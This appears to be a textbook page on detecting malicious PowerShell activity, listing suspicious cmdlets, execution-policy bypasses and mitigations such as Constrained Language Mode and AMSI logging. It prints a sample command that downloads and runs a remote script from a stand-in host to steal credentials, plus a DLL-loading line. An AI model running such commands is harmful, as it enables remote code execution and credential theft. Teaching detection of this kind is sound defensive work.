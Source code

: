 # POWERSHELL MALICIOUS INDICATORS

There are numerous exploit frameworks to leverage PowerShell functionality, such as PowerShell Empire, PowerSploit, Metasploit, and Mimikatz. Some suspicious indicators for PowerShell execution include the following:

-   Cmdlets such as Invoke-Expression, Invoke-Command, Invoke-WMIMethod, New-Service, Create-Thread, Start-Process, and New-Object can indicate an attempt to run some type of binary shellcode. This is particularly suspicious if combined with a DownloadString or DownloadFile argument. One complication is that cmdlets can be shortened, assisting obfuscation. For example, Invoke-Expression can be run using IEX.

powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://badsite.foo/DoEvil.ps1'); Do-Evil -StealCreds"

-   Bypassing execution policy can also act as an indicator. The PowerShell code may be called as a Base64 encoded string (-enc argument) or may use the -noprofile or -ExecutionPolicy Bypass arguments.
-   Using system calls to the Windows API might indicate an attempt to inject a DLL or perform process hollowing, where the malicious code takes over a legitimate process:

[Kernel32]::LoadLibrary("C:\Users\Foo\AppData\Local\Temp\doevil.dll")

-   Using another type of script to execute the PowerShell is also suspicious. For example, the attacker might use JavaScript code embedded in a PDF to launch PowerShell via a vulnerable reader app.

The big problem with PowerShell indicators is distinguishing them from legitimate behavior. The following techniques can be used to assist with this:

-   Use group policy to restrict execution of PowerShell to trusted accounts and hosts.
-   Use group policy execution control to run scripts only from trusted locations.
-   Consider use of Constrained Language Mode ([devblogs.microsoft.com/powershell/powershell-constrained-language-mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)) and signed scripts to limit the ability of exploit code to run on high-value target systems.
-   Use PowerShell logging ([docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7)) and the Antimalware Scan Interface ([docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)) to detect and prevent obfuscated and suspicious code.
-   Prevent the use of old PowerShell versions to mitigate the use of a downgrade attack to bypass access controls.

Symantec's white paper contains a useful introduction to PowerShell exploits ([docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)).
# BASH AND PYTHON MALICIOUS INDICATORS

Most of the web runs on Linux, and Linux has proven remarkably resilient to attacks (meaning that it is able to withstand or recover quickly from difficult situations), given the high-value of the assets that depend on it. Most exploits of Linux systems depend on weak configuration, and/or vulnerabilities in web applications. In Linux, the command line is usually Bourne Again Shell (Bash). Many Linux systems have Python enabled as well. Python scripts or batch files of bash commands can be used for automation tasks, such as backup, or for malicious purposes.
